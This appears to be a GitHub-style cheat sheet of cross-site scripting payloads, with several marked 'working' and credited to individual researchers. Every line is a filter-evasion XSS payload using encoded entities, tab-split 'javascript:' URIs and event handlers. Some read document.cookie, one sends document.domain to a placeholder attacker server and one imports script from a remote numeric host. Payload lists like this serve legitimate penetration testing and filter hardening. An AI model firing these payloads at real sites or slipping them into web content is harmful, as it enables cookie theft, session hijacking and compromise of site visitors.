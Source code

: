 ```
<a"/onclick=(confirm)()>Click Here!

Dec: <svg onload=prompt%26%230000000040document.domain)>

Hex: <svg onload=prompt%26%23x000000028;document.domain)>

xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>

<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>

<--%253cimg%20onerror=alert(1)%20src=a%253e --!>

<a+HREF='%26%237javascrip%26%239t:alert%26lpar;document.domain)'>

javascript:{ alert`0` }

1'"><img/src/onerror=.1|alert``>

<img src=x onError=import('//1152848220/')>

%2sscript%2ualert()%2s/script%2u

<svg on onload=(alert)(document.domain)>

<img ignored=() src=x onerror=prompt(1)>

<svg onx=() onload=(confirm)(1)>

“><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

<svg on =i onload=alert(domain) (working)

<svg/onload=location/**/='https://your.server/'+document.domain>

<svg onx=() onload=window.alert?.()> (working)

test",prompt%0A/*HelloWorld*/(document.domain) (working)- @Brutelogic

"onx+%00+onpointerenter%3dalert(domain)+x" (working)- @Brutelogic

"><svg%20onload=alert%26%230000000040"1")> (working)- @IamRenganathan

%27%09);%0d%0a%09%09[1].find(alert)//

"><img src=1 onmouseleave=print()> - @itsgeekymonk

<svg on onload=(alert)(document.domain)> -@zapstiko

<svg/on%20onload=alert(1)> (working) -@aufzayed

<img/src=x onError="`${x}`;alert(`Ex.Mi`);"> -@ex_m
```
